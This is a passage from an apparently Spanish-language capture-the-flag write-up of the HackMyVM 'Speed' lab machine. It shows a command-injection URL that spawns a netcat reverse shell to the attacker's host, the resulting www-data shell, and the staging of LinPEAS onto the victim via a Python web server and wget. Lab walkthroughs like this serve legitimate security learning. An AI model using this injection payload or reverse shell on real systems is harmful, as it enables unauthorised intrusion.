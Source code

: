 ```
http://192.168.1.109/index.php?plot=;nc+-e+/bin/bash+192.168.1.108+4444
```

Veremos que al instante recibimos una conexión de la máquina víctima:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Speed]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.108] from (UNKNOWN) [192.168.1.109] 35968
www-data@speed:~/html$
```

¡Estupendo! Ya estamos en la máquina como **`www-data`**.

### Subida de privilegios #1
Ahora que estamos en la máquina necesitamos escalar privilegios para poder tener el **`control total`** de la máquina, pero no tan rápido, aún tenemos que pasar por un usuario.

Para comenzar me descargué [**`LinPEAS`**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), una herramienta que sirve para enumerar un sistema **Linux**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Speed/exploits]
└─# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```

Una vez descargado me creé un servidor con **`Python`** para que después, en la máquina víctima, pueda descargarlo con **`WGET`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Speed/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```sh
www-data@speed:/tmp$ wget http://192.168.1.108/linpeas.sh
--2023-07-08 09:46:55--  http://192.168.1.108/linpeas.sh
Connecting to 192.168.1.108:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 836190 (817K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                        100%[============================================================>] 816.59K  --.-KB/s    in 0.01s   

2023-07-08 09:46:55 (60.6 MB/s) - 'linpeas.sh' saved [836190/836190]
```

Por último necesitamos darle permisos de ejecución:

```sh
www-data@speed:/tmp$ chmod +x linpeas.sh
```
